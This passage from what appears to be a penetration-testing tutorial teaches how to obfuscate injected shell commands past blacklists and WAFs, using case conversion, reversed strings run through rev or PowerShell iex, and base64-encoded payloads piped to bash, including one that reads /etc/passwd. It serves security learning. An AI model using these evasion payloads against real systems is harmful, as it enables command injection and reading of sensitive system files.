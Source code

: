 However, when it comes to Linux and a bash shell, which are case-sensitive, as mentioned earlier, we have to get a bit creative and find a command that turns the command into an all-lowercase word. One working command we can use is the following:
```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
$(a="WhOaMi";printf %s "${a,,}")
```

Once we replace the spaces with tabs (%09), we see that the command works perfectly:


### Reversed Commands
Another command obfuscation technique we will discuss is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing imaohw instead of whoami to avoid triggering the blacklisted command.

We can get creative with such techniques and create our own Linux/Windows commands that eventually execute the command without ever containing the actual command words. First, we'd have to get the reversed string of our command in our terminal, as follows:
```bash
$ echo 'whoami' | rev
```

Then, we can execute the original command by reversing it back in a sub-shell ($()), as follows:
```bash
$ $(rev<<<'imaohw')
```

The same can be applied in Windows. We can first reverse a string, as follows:
```powershell
PS > "whoami"[-1..-20] -join ''
```
We can now use the below command to execute a reversed string with a PowerShell sub-shell (iex "$()"), as follows:

```powershell
PS > iex "$('imaohw'[-1..-20] -join '')"
```

### Encoded Commands
The final technique we will discuss is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like base64 (for b64 encoding) or xxd (for hex encoding). Let's take base64 as an example. First, we'll encode the payload we want to execute (which includes filtered characters):
```bash
$ echo -n 'cat /etc/passwd | grep 33' | base64
```

Now we can create a command that will decode the encoded string in a sub-shell ($()), and then pass it to bash to be executed (i.e. bash<<<), as follows:
```bash
$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```
